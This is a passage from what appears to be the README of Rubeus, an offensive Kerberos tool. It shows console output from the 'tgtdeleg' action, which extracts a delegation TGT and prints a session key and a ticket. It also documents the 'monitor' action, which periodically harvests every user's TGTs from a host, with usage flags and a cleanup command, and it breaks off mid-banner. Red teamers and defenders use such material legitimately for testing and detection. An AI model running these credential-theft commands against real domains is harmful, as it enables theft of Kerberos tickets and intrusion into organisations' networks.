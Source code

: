     C:\Rubeus>Rubeus.exe tgtdeleg

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.3.3


    [*] Action: Request Fake Delegation TGT (current user)

    [*] No target SPN specified, attempting to build 'HOST/dc.domain.com'
    [*] Initializing Kerberos GSS-API w/ fake delegation for target 'HOST/PRIMARY.testlab.local'
    [+] Kerberos GSS-API initialization success!
    [+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
    [*] Found the AP-REQ delegation ticket in the GSS-API output.
    [*] Authenticator etype: aes256_cts_hmac_sha1
    [*] Extracted the service ticket session key from the ticket cache: YnEFxPfqw3LdfNvLtdFfzaFf7zG3hG+HNjesy+6R+ys=
    [+] Successfully decrypted the authenticator
    [*] base64(ticket.kirbi):

        doIFNjCCBTKgAwIBBaEDAgEWoo...(snip)...


### monitor

The **monitor** action will periodically extract all TGTs every `/monitorinterval:X` seconds (default of 60) and display any newly captured TGTs. A `/targetuser:USER` can be specified, returning only ticket data for said user. This function is especially useful on servers with unconstrained delegation enabled ;)

When the `/targetuser:USER` (or if not specified, any user) creates a new 4624 logon event, any extracted TGT KRB-CRED data is output.

The `/nowrap` flag causes the base64 encoded ticket output to no wrap per line.

If you want **monitor** to run for a specific period of time, use `/runfor:SECONDS`.

Further, if you wish to save the output to the registry, pass the `/registry` flag and specfiy a path under HKLM to create (e.g., `/registry:SOFTWARE\MONITOR`). Then you can remove this entry after you've finished running Rubeus by `Get-Item HKLM:\SOFTWARE\MONITOR\ | Remove-Item -Recurse -Force`.

    c:\Rubeus>Rubeus.exe monitor /targetuser:DC$ /interval:10

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/
